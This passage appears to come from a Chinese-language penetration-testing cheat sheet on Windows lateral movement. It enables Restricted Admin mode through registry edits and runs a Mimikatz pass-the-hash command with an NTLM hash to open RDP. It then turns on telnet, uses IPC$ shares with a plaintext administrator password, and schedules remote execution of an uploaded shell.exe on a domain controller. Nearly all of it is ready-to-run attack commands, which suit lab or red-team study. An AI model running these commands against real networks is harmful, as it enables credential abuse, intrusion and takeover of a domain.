 查看是否开启 “受限管理员”，若为0x0则开启，为0x1则未开启

```
reg query "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin
```

开启 “受限管理员” 

```bash
reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 00000000 /f
```

通过`Mimikatz`进行利用

```bash
mimikatz.exe "privilege::debug" "sekurlsa::pth /user:administrator /domain:remoteserver /ntlm:73292305e32730af1b5b94022b2b2aaa" "/run:mstsc.exe /restrictedadmin"
```



### 23 端口 开启telnet

```bash
# 开启telnet
sc config tlntsvr start= auto
net start telnet

# 直接连接
telnet 192.168.52.141
```

### 计划任务上线

条件：获取到目标主机管理员账号密码，并且目标主机的 139，445端口是开启的

[window横向渗透-IPC命令&schtasks 计划任务上线](https://blog.csdn.net/weixin_42109829/article/details/122327189#:~:text=1%E3%80%81%E6%9F%A5%E7%9C%8B%20%E7%9B%AE%E6%A0%87%E4%B8%BB%E6%9C%BA%E6%97%B6%E9%97%B4%20net%20time%20%5C192.168.93.10%202%E3%80%81%E5%88%9B%E5%BB%BA%E8%AE%A1%E5%88%92%E4%BB%BB%E5%8A%A1%20%EF%BC%88%E6%B5%8B%E8%AF%95%E7%9A%84%E6%97%B6%E5%80%99%E6%9C%89%E7%82%B9%E5%8D%A1%2C%E8%A6%81%E7%AD%89%E4%B8%80%E4%BC%9A%EF%BC%89%20schtasks,%2Ftr%20c%3A%2Fabcd.exe%20%2Fsc%20once%20%2Fst%2017%3A48%20%2Fsd%202022%2F01%2F10)

```bash
# 先用win7连接域控的c盘共享
net use \\192.168.93.10\c$ "Liu78963" /user:"administrator"

# 将win7主机上的shell.exe上传到域控
copy c:\phpstudy\www\yxcms\shell.exe \\192.168.52.138\c$

# 查看目标主机时间
net time \\192.168.93.10

# 创建计划任务
schtasks /create /s 192.168.93.10 /u administrator /p Liu78963 /tn c /tr c:/abcd.exe /sc once /st 17:48 /sd 2022/01/10

# 查看计划任务
schtasks /query /s 192.168.93.10 /u administrator /p Liu78963 /TN c



```
